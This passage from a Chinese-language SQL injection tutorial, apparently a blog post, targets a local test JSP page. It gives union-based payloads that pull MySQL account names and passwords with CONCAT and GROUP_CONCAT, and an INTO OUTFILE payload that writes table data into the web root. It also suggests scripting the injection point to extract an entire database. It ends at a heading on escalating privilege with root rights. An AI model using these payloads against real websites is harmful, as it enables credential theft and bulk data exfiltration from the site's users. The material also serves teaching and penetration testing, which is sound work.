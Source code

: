 使用Navicat构建SQL查询语句：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517165611734%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

当我们在SQL注入当中找到用户或管理员所在的表是非常重要的，而当我们想要快速找到跟用户相关的数据库表时候在Mysql里面就可以合理的使用information\_schema去查询。构建SQL查询获取所有当前数据库当中数据库表名里面带有user关键字的演示：-

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517165644239%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

查询包含user关键字的表名的结果：-

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517165659545%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

假设已知某个网站用户数据非常大，我们可以通过上面构建的SQL去找到对应可能存在用户数据信息的表。

查询Mysql所有数据库中所有表名带有user关键字的表，并且按照表的行数降序排列：



查询指定数据库：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517165758404%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

查询字段当中带有user关键字的所有的表名和数据库名：-



![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517165826243%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)

#### CONCAT：

    http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1￼

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517165858743%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)

#### GROUP\_CONCAT

    http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select 1,2,3,GROUP_CONCAT('MysqlUser:',User,'------MysqlPassword:',Password) FROM mysql.`user` limit 0,1

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F2018051716592854%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)

#### 注入点友情备份:

    http://localhost/SqlInjection/index.jsp?id=1 and 1=2 union select '','',corps_name,corps_url from corps into outfile'E:/soft/apache-tomcat-7.0.37/webapps/SqlInjection/1.txt'

注入在windows下默认是E:\\如果用“\\”去表示路径的话需要转换成`E:\\`而更方便的方式是直接用/去表示即E:/。 当我们知道WEB路径的情况下而又有outfile权限直接导出数据库中的用户信息。

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdn.net%2F20180517170023236%3Fwatermark%2F2%2Ftext%2FaHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0ZseV9ocHM%3D%2Ffont%2F5a6L5L2T%2Ffontsize%2F400%2Ffill%2FI0JBQkFCMA%3D%3D%2Fdissolve%2F70)-

而如果是在一些极端的情况下无法直接outfile我们可以合理的利用concat和GROUP\_CONCAT去把数据显示到页面，如果数据量特别大，我们可以用concat加上limit去控制显示的数量。比如每次从页面获取几百条数据？写一个工具去请求构建好的SQL注入点然后把页面的数据取下来，那么数据库的表信息也可以直接从注入点全部取出来。

## 注入点root权限提权：-
1、写启动项：
